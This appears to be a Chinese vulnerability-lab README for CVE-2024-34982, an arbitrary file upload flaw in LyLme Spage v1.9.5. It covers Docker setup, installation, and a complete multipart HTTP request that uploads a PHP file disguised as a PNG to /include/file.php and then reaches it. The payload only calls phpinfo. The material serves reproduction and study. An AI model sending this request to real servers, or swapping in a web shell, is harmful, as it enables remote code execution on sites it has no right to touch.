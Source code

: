 # CVE-2024-34982 LyLme Spage六零导航页 文件上传

六零导航页 (LyLme Spage) 致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义搜索引擎，沉淀最具价值链接，全站无商业推广，简约而不简单。lylme_spage v1.9.5 组件 /include/file.php 中存在任意文件上传漏洞，允许攻击者通过上传精心设计的文件来执行任意代码。

**影响版本**：lylme_spage v1.9.5

**项目地址**：https://gitee.com/LyLme/lylme_spage/

**参考链接**：

- https://github.com/n2ryx/CVE/blob/main/Lylme_pagev1.9.5.md



## 漏洞环境

执行如下命令启动一个lylme_spage_v1.9.5-web服务器：

```
docker compose up 
```

环境启动后，访问`http://your-ip:80`将面跳转到lylme_spage的安装向导页面

输入数据库库名称lylme_spage，点击安装

![image-20240817111708171](./1.png)

等待安装完成

![image-20240817112007103](./2.png)



## 漏洞复现

发起如下的请求，上传php文件

```
POST /include/file.php HTTP/1.1
Host: 192.168.160.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Length: 193

------WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Disposition: form-data; name="file";filename="mm.php"
Content-Type: image/png

<?=phpinfo();?>
------WebKitFormBoundary89Tc5ksp85eVIfaA--
```

![image-20240817112645153](./3.png)

访问php文件`http://192.168.160.128/files/upload/img_66c0186079bee.php`

![image-20240817112826889](./4.png)